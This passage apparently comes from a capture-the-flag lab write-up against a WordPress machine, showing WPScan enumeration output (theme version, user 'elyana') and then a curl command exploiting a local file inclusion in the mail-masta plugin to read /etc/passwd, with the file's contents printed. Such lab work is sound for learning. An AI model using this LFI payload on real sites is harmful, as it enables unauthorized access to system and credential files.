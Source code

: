 ```bash
 | Style URL: http://10.10.186.115/wordpress/wp-content/themes/twentytwenty/style.css
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://10.10.186.115/wordpress/wp-content/themes/twentytwenty/, status: 500
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.186.115/wordpress/wp-content/themes/twentytwenty/style.css, Match: 'Version: 1.5'

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:02 <====================================================================================> (75 / 75) 100.00% Time: 00:00:02

[i] No DB Exports Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <===============================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] elyana
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.186.115/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Oct 12 06:08:51 2025
[+] Requests Done: 554
[+] Cached Requests: 17
[+] Data Sent: 155.442 KB
[+] Data Received: 4.024 MB
[+] Memory used: 271.402 MB
[+] Elapsed time: 00:00:34
```
Testing LFI
┌──(kali㉿kali)-[~]
└─$ curl -s "http://10.10.209.153/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin